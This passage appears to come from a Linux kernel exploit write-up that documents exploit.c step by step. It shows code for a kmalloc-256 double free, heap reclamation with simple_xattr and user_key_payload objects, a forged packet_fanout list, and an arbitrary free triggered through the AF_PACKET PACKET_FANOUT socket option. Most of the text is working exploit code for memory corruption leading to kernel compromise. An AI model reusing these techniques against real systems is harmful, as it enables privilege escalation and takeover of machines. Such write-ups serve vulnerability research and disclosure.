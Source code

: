 ```c
void packet_socket_destroy(int fd)
{
  close(fd);
}
```

- Reclaim `struct packet_sock` object slot with `struct simple_xattr` object contain fake `struct packet_fanout` object [exploit.c#L425](./exploit.c#L425):

```c
  if (setxattr(FAKE_PACKET_FANOUT_FILE_PATH, "security.fake_packet_fanout", fake_packet_fanout_buffer,
               1024, 0) < 0) {
    fprintf(stderr, "fake packet fanout failed\n");
    return false;
  }
```

- Allocate victim `struct packet_fanout` object. This is `A2` in the idea [exploit.c#L431](./exploit.c#L431):

```c
  int build_fake_packet_fanout_list_fd = packet_socket_create_and_bind();
  if (build_fake_packet_fanout_list_fd < 0)
    return false;

  int dyn_kmalloc_256_double_free_fsfd = prepare_double_free(DYN_KMALLOC_256);
  if (dyn_kmalloc_256_double_free_fsfd < 0)
    return false;

  get_full_timesplice();
  trigger_first_free(dyn_kmalloc_256_double_free_fsfd);
  if (!packet_fanout_alloc(build_fake_packet_fanout_list_fd, 0xdead, 1))
    return false;
```

- 0xdead is id of `struct packet_fanout` object. Other value is ok as long as it different from the id of A1.

- Prepare data to overwrite `struct packet_fanout` object [exploit.c#L444](./exploit.c#L444):

```c
uint8_t fake_packet_fanout_list_buf[192] = {};
struct packet_fanout *f1 = fake_packet_fanout_list_buf - USER_KEY_PAYLOAD_STRUCT_SIZE;
f1->list.next = fake_packet_fanout_addr + offsetof(struct packet_fanout, list);
```

- Overwrite `struct packet_fanout` object [exploit.c#L448](./exploit.c#L448):

```c
trigger_second_free(dyn_kmalloc_256_double_free_fsfd);
user_key_payload_alloc("fake_packet_fanout_list", fake_packet_fanout_list_buf, 192);
```

- Trigger arbitrarily free [exploit.c#L451](./exploit.c#L451):

```c
int trigger_simple_xattr_payload_free_fd = socket(AF_PACKET, SOCK_RAW, 0);
if (trigger_simple_xattr_payload_free_fd < 0)
  return false;

struct fanout_args fanout_args = {
  .type_flags = PACKET_FANOUT_HASH,
  .id = 0xcafe,
  .max_num_members = 1
};

get_full_timesplice();
setsockopt(trigger_simple_xattr_payload_free_fd, SOL_PACKET, PACKET_FANOUT, &fanout_args,
  sizeof(fanout_args));
```